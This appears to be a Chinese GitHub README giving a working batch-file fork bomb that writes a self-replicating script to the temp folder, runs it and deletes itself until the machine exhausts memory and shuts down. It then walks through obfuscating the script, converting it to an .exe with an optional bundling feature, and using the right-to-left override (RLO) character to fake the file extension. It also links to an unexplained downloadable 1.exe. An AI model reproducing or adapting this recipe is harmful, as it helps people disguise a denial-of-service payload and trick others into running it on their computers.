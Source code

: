 
# 打包下载地址 https://yj233.lanzoux.com/ic2hu3e 密码:need

一个令电脑内存堆积 导致强制关机的bat
## 我们需要一个ouch.bat
/////手动编辑/////
```bash
(echo :ouch && echo start ouch.bat && echo goto ouch && echo color 2 && echo echo ################## I am YJ, thank u for open this bat,Yours computer will be shutdown ##################) > %temp%/ouch.bat
cd %temp% && ouch.bat
del %0`
```
记事本添加以上代码后，保存修改后缀为bat。'如果你想测试的话可以打开hhh
### CmdEncryption 加密bat文件
不用介绍了 感谢AM电脑吧:年老痴呆
ps:这里我没使用这个 因为没必要 演示一下而已！
#### 之后导入Bat_To_Exe_Converter将bat转换成exe
ps:language可以切换为中文

![battoexe](https://s1.ax1x.com/2020/04/28/JIHGGV.png)
此软件有捆绑功能与填写软件功能 我这里不需要我就不弄了 这是我的配置 自行DIY

##### RLO字符运用
![RLO](https://s1.ax1x.com/2020/04/28/JIbNfP.gif)
看GIF把 不解释了都 
ps:想看后缀请到文件夹设置里设置显示后缀！
附上链接
[点我](https://jingyan.baidu.com/article/ab69b2707a7deb2ca6189f6f.html "点我看看教程")
~~*这个教程真的好小白算是 一个demo了吧*~~
THANK YOU!!!
### END

### 1.exe為自用文件 切勿隨意獲取
#### https://raw.fastgit.org/yj94/ouch/master/1.exe

